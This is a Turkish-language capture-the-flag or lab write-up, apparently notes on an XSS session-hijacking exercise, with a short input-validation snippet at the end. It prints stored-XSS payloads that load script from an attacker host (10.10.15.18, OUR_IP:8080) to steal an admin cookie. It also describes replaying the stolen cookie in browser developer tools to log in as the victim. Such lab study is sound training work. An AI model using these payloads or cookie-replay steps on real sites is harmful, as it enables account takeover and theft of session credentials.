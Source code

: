 Son olarak, kurbanın hesabına erişmek için bu cookie'yi login.php sayfasında kullanabiliriz. Bunu yapmak için, /hijacking/login.php sayfasına gittiğimizde, Firefox'ta Shift+F9'a tıklayarak Developer Tools'daki Storage çubuğunu açabiliriz. Ardından, sağ üst köşedeki + düğmesine tıklayabilir ve Cookie'mizi ekleyebiliriz, burada Name = 'den önceki kısım ve Value = 'den sonraki kısım çalınan cookie'mizdir:

![Pasted image 20241117030520.png](/img/user/resimler/Pasted%20image%2020241117030520.png)

Cookie'mizi ayarladıktan sonra sayfayı yenileyebiliriz ve kurban olarak erişim sağlayabiliriz:


Soru : Güvenlik açığı olan giriş alanını belirlemek ve çalışan bir XSS payload'u bulmak için bu bölümde öğrendiklerinizi tekrarlamaya çalışın ve ardından Admin'in cookie'sini almak için 'Session Hijacking' script'lerini kullanın ve bayrağı almak için 'login.php'de kullanın.

Cevap :

payload : "><script src=http://10.10.15.18></script>

Xss bulunduğu yer Profile Picture Url form yerinde. 

![Pasted image 20241117032729.png](/img/user/resimler/Pasted%20image%2020241117032729.png)

script.js dosyası 

![Pasted image 20241117034527.png](/img/user/resimler/Pasted%20image%2020241117034527.png)


index.php dosyası : 

![Pasted image 20241117034549.png](/img/user/resimler/Pasted%20image%2020241117034549.png)

hedef'e yolladığımız payload . 

"><script src=http://10.10.15.18/script.js></script><script src=http://OUR_IP:8080/script.js></script>

![Pasted image 20241117034627.png](/img/user/resimler/Pasted%20image%2020241117034627.png)


![Pasted image 20241117034510.png](/img/user/resimler/Pasted%20image%2020241117034510.png)

Cookie değerini + sekmesine tıklayıp ekleyip bayrağı alalım .
![Pasted image 20241117035513.png](/img/user/resimler/Pasted%20image%2020241117035513.png)



### XSS Önleme

## Front-end

Girdi doğrulama.

```javascript
function validateEmail(email) {
    const re = /^(([^<>()[\]\\.,;:\s@\"]+(\.[^<>()[\]\\.,;:\s@\"]+)*)|(\".+\"))@((\[[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\])|(([a-zA-Z\-0-9]+\.)+[a-zA-Z]{2,}))$/;
    return re.test($("#login input[name=email]").val());
}
```
